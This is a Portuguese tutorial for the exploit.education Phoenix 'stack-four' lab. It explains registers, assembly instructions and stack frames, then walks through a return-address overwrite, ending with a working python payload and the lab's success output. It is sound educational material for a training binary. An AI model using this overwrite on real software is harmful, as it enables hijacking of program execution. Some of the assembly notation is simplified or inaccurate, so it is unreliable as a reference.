

- üéØ Objetivo
- üõ∏ Conhecimento preliminar
- üåç Caso voc√™ tenha viajado, o que voc√™ precisa saber
- üî• Exploit
- üí´ Solu√ß√£o
üéØ Objetivo
O buffer overflow (BOF) vai nos permitir alterar o saved return pointer (SRP) e redirecionar a execução do programa.
Esse desafio está nos preparando para o próximo, no qual nos redirecionaremos a execução para o nosso próprio código, e teremos um exploit de verdade! :D
Esse tipo de exploit era viável nos anos 90, quando mecanismos de proteção não existiam. Por isso é chamado de buffer overflow clássico (ou SRP BOF,
caso você goste de siglas)! :D
Se você souber inglês, vale a pena dar uma lida nesse post de 1996 no Phrack: Smashing The Stack For Fun And Profit !
üõ∏ Conhecimento preliminar
Se tem uma seção inteira dedicada a conhecimento preliminar, eu posso te garantir que vai ser BASTANTE ! Verifique que o cinto de segurança está firme e travado, mantenha as mãos, pernas e canecas de café dentro do veículo durante todo o percurso!
3...2...1....
ü§ñ Assembly
Recursos adicionais:
x64 Cheat Sheet - PDF
Harvard CS61
Wikipedia Registers
GPR in 8086
Registadores - Introdução Engenharia Reversa \
Eu pretendo fazer uma serie de tutorias dedicada à assembly (ASM), porém isso é para o futuro...
Eu vou usar sintaxe intel, pq é a melhor e se alguém te disser o contrário, a pessoa ta mentindo >:( !!!!
ASM é uma representação legível dos 0s e 1s das instruções do computador. Ela pode ser transformada em machine code (código de maquina, os 0s e 1s) usando uma ferramenta chamada assembler!
Então como você pode imaginar, é bem complicado, e a minha maneira de explicar pode não funcionar para você... Então vai com calma, le de outras fontes, assiste videos,... vai demorar um bom tempo ate ficar intuitivo, e ta tudo bem com isso :) vai no seu ritmo
üì¶ Register (Registos / Registadores)
Registers são pedaços de memória que ficam dentro do chip do processador, semelhante a memória RAM, porém extremamente rápidos e pequenos.
O seu tamanho é um dos determinantes da arquitetura (32 bits = register de 4 bytes, 64 bits = register de 8 bytes)
Esses registers são semelhantes à variáveis, no sentido que armazenam valores, podem ser alterados e lidos.
üåç General Purpose Registers (GPR) ( Registo de Prop√≥sito Geral )
Obs: muitos desses podem ser divididos em 2 partes, com metade do tamanho original. Nesse caso, se adiciona o sufixo H (High, A parte de cima) e L (Low, A parte de baixo).
Por exemplo: AX (16 bits, endereços: 0 a 15) (uma versão antiga do RAX) pode ser dividido em AL (8 bits, do 0 ao 7) e AH (8 bits, do 8 ao 15).
O propósito deles historicamente costumava ser, mas não exclusivamente era:
RAX Acumulador -> Usado para operações_lógicas ou aritméticas
RBX -> Pointer para dados
RCX Contagem -> Usado em loops e outras operações_cíclicas
RDX Dados -> Multiplicação, input/output
R8 a 15 -> você só precisa saber que eles existem
Alem disso, são usados para passar os argumentos para funções (explicação em breve)
RAX (Valor retornado)
RDI (1º parâmetro)
RSI (2º parâmetro)
RDX (3º parâmetro)
...
Para os nossos propósitos, é mais vantajoso considerar que eles só servem para armazenar valores e passar argumentos
üí´ Address Register ( armazenam endere√ßos da stack )
RSP Stack Pointer -> Aponta para o topo da stack
RBP Base Pointer -> Aponta para a base da stack
RIP Instruction Pointer -> Aponta para a instrução
que está sendo executada
üèÅ RFLAG
O register RFLAG armazena flags: sinais que indicam resultados de operações passadas. Esses sinais são 1 bit (0 ou 1)
Exemplos:
Posição Nome Descrição
0 Carry Resultado estourou o limite de um inteiro
sem sinal (o "vai-um" da matemática)
6 Zero A operação resultou em 0
11 Overflow Estourou o limite de um inteiro com sinal
ü߆ Ap√™ndice - Curiosidade : Nomenclatura hist√≥rica

Eu vou usar o RAX como exemplo!
Em computadores 8 bits, ele era chamado A (Acumulador)
Em computadores 16 bits, ele era chamado AX (Acumulador eXtendido )
Em computadores 32 bits, ele era chamado EAX e tem o tamanho de 2 AX
Em computadores 64 bits, ele é chamado RAX e tem o tamanho de 2 EAX
Para propósitos de retro-compatibilidade, nos ainda podemos usar,
por exemplo, EAX em um computador 64 bits !
Por trás das cenas, o computador interpreta EAX como a segunda metade do RAX
Então não estranhe caso alguém fale de EIP numa
arquitetura x64, pois na linguagem informal não faz diferença
Mas caso você vá analisar o register em um debugger, a diferença importa :D
⚡ Instruções
Obs: os registers foram usados aleatoriamente, pois seu propósito na realidade não é relevante para a explicação !
As instruções são o que o processador executa, por exemplo
add 0x4 0x1 -> adição 4 + 1 = 5
Na sintaxe intel, o "alvo" da operação vem primeiro e o "parâmetro" depois
Caso os dois argumentos da instrução sejam valores, a operação executara normalmente
Caso o alvo seja um register, o resultado da operação será salvo nele
add 0x4 0x1 -> adição 4 + 1 = 5
add rbp 0x10 -> rbp vira rbp + 0x10
add rbp 0x22 -> Adiciona 0x22 ao rbp
sub 0x4 0x1 -> subtração 4 - 1 = 3
Caso fosse ao contrário a ordem "alvo" "parâmetro",
o resultado seria `-3` !
sub rbp 0x10 -> rbp vira rbp - 0x10
sub rsp 0x10 -> Subtrai 0x10 de rsp
Algumas outras instruções que serão importantes
push -> Empurra o valor pro topo da Stack
pop -> Tira o valor no topo da Stack e salva no alvo
|---> pop -> Só remove o valor no topo da Stack
|---> pop rbp -> Remove o valor do topo e salva em rbp
mov -> Move o valor do parâmetro para o alvo
|---> mov rbx 0x10 -> O valor de rbx vira 0x10
|---> mov rbx rax -> O valor de rbx vira o valor de rax
|---> mov rax rbx -> O valor de rax vira o valor de rbx
Usadas no epílogo ( explicadas em breve )
ret -> retorna da função ( em essência é só um "pop rip" )
leave -> restaura o stack frame anterior ( mov rsp rbp ; pop rbp )
xor, and, ...... -> Operadores lógicos, têm o mesmo comportamento de sub e add
|---> and rbp 0x10 -> rbp vira rbp & 0x10
|---> xor rsp 0x10 -> rsp vira rsp ^ 0x10
Jumps/Pulos
jmp 0x00001234 -> Move o RIP para aquela localização incondicionalmente,
equivalente a um GOTO
test rax 0x1 ; jmpEQ 0x00001234 -> jmp equal
|---> Compara os valores; Se forem iguais da o jump
(normalmente usado em conjunto com a ZERO_FLAG)
jmple -> jmp less or equal -> Menor ou igual ≤
jmpge -> jmp greater or equal -> Maior ou igual ≥
Caso vc não saiba os operadores lógicos: Wikipedia Operador Lógico
ü¶Ñ Fun√ß√µes, Pr√≥logo e Ep√≠logo
Agora tá na hora de aprender realmente como essa tal de stack funciona, então é bom dar uma revisada, né?
☕ Revisão
- A stack é como uma pilha de pratos: último a entrar, primeiro a sair (LIFO)
- Ela cresce para valores menores:
- A memória é representada de cabeça pra baixo!
- A base fica em um endereço maior (parte de baixo)
- O topo fica em um endereço menor (parte de cima)
- Portanto, a stack cresce em direção à valores menores :D
üñºÔ∏è Stack Frame ( Moldura da Stack )
Você se lembra do RBP e RSP la da parte dos register? Eles ficam importantes agora! :D
O rbp indica a base da stack, e rsp o topo.
A região entre os dois é chamada de stack frame: um pedaço da stack :D
A stack como um todo possui vários stack frames, porém só um está ativo por vez (o indicado pelo rbp/rsp).
Para poder criar um novo ou destruir um antigo, existem procedimentos chamados Prólogo e Epílogo, respectivamente.
Obs: Quando você muda o tamanho da stack por push/pop, o RSP se ajusta automaticamente
Quando chamamos uma função(), precisamos criar um frame novo para ela por meio de um Prólogo, e salvar o endereço do frame atual. Ao retornar, esse frame será destruído com um Epílogo e o antigo será restaurado !
Para a explicação, vamos usar o seguinte pseudo-programa:
Fn print_dois(x, y) {
print(x)
print(y)
return
}
Fn main() {
x = "Ola! :D"
y = "Assembly é legal"
print_dois(x, y)
return
}
Agora vamos executar main(), x e y são definidas e nos já sabemos como isso funciona, agora vamos chamar a função, que é aonde a mágica acontece !
üîí Pr√≥logo
- Se a função receber argumentos, passar eles Chamar a função
- Salvar o frame atual
- Criar novo frame Executar a função
Se a função receber argumentos, salvar eles
Algumas arquiteturas passam os argumentos pela stack, salvando-os na stack na ordem inversa:
(x, y)
push y
push x
Mas comumente, os argumentos são passados pelos registers:
RAX (Valor retornado)
RDI (1º parâmetro)
RSI (2º parâmetro)
RDX (3º parâmetro)
...
Caso main() use um desses registers para armazenar dados para uso futuro, vai ser necessário dar um push neles, e restaura-los no epilogo
Salvar o frame atual
push RIP + 0x4 ; salva o RIP na stack, porém não o valor atual,
; e sim o endereço da próxima instrução
push RBP ; salva o RBP
Atualmente, a stack está assim
rbp main <- RSP -
rip main | Frame de
.... | main()
ret de main <- RBP -
Criar novo frame
Agora, para criar um novo frame, precisamos subir o rbp até o rsp
mov rbp rsp ; Move o valor de rsp para rbp!
; Ou melhor : rbp "anda" até o rsp
Atualmente, a stack está assim
rbp main <- RSP e RBP apontam para a mesma localização
rip main
... stack frame de main omitido
Agora, precisamos subtrair de RSP para alocar espaço na memória para essa função
A stack cresce para valores menores :)
sub rsp - 0x20 ; vamos supor que, para esse exemplo, a função precisa de 32 bytes.
; Portanto, vamos subtrair 32 bytes de RSP, para faze-lo "subir"
Atualmente, a stack está assim
... <- RSP -
Variáveis de print_dois |
... | Frame de
... | print_dois()
rbp main <- RBP -
rip main
...
Com esse método de chamar função, não importa a localização da memória de quando a função foi chamada, ela sempre vai executar da mesma maneira
Esse processo pode ocorrer muitas vezes caso uma função chame outra, no nosso exemplo, um novo frame seria criado para print(), print seria executada, e o frame destruído ao retornar. Apos print() retornar, print_dois continuara a execução normalmente! :)
O prologo então pode ser resumido em
salvar vars
call
push rip
push rbp
mov rbp rsp
sub rsp 0x1234
executar a função
üîë Ep√≠logo
O epilogo é bem mais simples que o prologo:
- Devolver memoria e restaurar RBP -> leave
- Restaurar RIP e retornar -> ret
Atualmente, a stack está assim
... <- RSP -
Instruções |
... | Frame de
... | print_dois()
rbp main <- RBP -
rip main
leave
Para devolver a memoria, precisamos mover RSP "para baixo: basta dar um mov rsp rbp ("andar" rsp até o rbp)
Atualmente, a stack está assim
...
Variáveis print dois A região não é apagada, pois consumiria processamento a toa!
... O valores ficam largados lá até uma nova função escrever por cima deles..
... Por isso que, ao analisar a stack, as vezes vemos "lixo" aleatório
... Eles pode ser ignorado pois nem está mais na stack
rbp main <- RBP e RSP - O topo da stack
rip main
Em seguida, vamos restaurar o rbp de main pop rbp
(remover o valor no topo da stack (ver acima por referencia), e coloca-lo no alvo: rbp)
--- omitido ---
rip main <- RSP (lembrando que RSP se ajusta automaticamente com push/pop)
...
... main
call print_dois
proxima instrução
... resto de main
ret de main <- RBP
ret (return)
ret vai restaurar o EIP de main com um pop rip
...
...resto de main <- RSP
call print_dois
proxima instrução <- RIP
... resto de main
ret da main <- RBP
Assim, o stack frame de main foi restaurado graças ao rbp e rip salvos ( o rip salvo é chamado de Saved Return Pointer (SRP) )
üåç Caso voc√™ tenha viajado, o que voc√™ precisa saber
Existem algumas variáveis especiais dentro do processador:
RSP Stack Pointer -> Aponta para o topo da stack
RBP Base Pointer -> Aponta para a base da stack
RIP Instruction Pointer -> Aponta para a instrução que está sendo executada
O RIP e o RBP atuais são salvos na stack quando chamamos uma função, junto das outras variáveis:
buffer[64]
uns int qualquer usado na função
....
rbp
rip
Se por um buffer overflow conseguimos alterar aqueles inteiros depois do buffer, como changeme nos exercícios anteriores, também conseguimos
alterar o RIP salvo (SRP) e redirecionar a execução do programa!
üî• Exploit
üî¨ Analisar o programa
O programa contem 3 funções: complete_level, start_level e main
main printa a mensagem do começo do nível e chama start_level
complete_level é a função que precisamos chamar
start_level é onde a magica acontece: gets() (vulnerável) é chamada num buffer[64]
⁉️ O compilador adicionou coisa???
Se colocarmos somente um byte:
$ ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
A
and will be returning to 0x40068d
A função normalmente retorna para 0x40068d !
$ python -c "print 'A'*80" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40068d
Segmentation fault
Nos colocamos mais de 64 bytes (80), e conseguimos dar overflow... mas o rip não mudou e mesmo assim teve seg fault.... QUE?!!!!
O compilador muitas vezes coloca coisas na stack por performance ou compatibilidade!
Alem disso, nos exemplos passados o valor que queremo mudar estava logo depois do buffer, agora tem pelo menos o RBP salvo no meio do caminho!
Então precisamos levar isso em consideração, não basta só olhar que o tamanho do buffer é 64 e colocar 64 bytes de padding!
Em aplicações mais complexas, essa diferença pode chegar a centenas de bytes.
Nos podemos encontrar essa diferença usando ferramentas como fuzzers ou geradores de padrão...
Como nosso exemplo é simples, podemos aumentar/diminuir manualmente ate encontrar o valor certo:
$ python -c "print 'A'*89" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x41
Segmentation fault
$ python -c "print 'A'*88" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x400000
Segmentation fault
Isso quer dizer que apoś 88 bytes, temos o SRP :D
üè† Encontrar endere√ßo de complete_level
Você se lembra como faz? Nos usamos no exercício passado....
cof cof objdump -d cof cof
Se vc quer tentar sozinhx, agora é a sua hora
.
.
.
.
.
.
.
.
.
.
.
.
.
Eai, conseguiu?
Encontrar endereço:
$ objdump -d stack-four | grep complete_level
000000000040061d <complete_level>:
Exploit:
$ python -c "print 'A'*88 + '\x1d\x06\x40'" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
Esse foi um tutorial beeem longo, e com certeza o mais difícil! Se você chegou até aqui, parabéns! :D
üí´ Solu√ß√£o
$ python -c "print 'A'*88 + '\x1d\x06\x40'" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!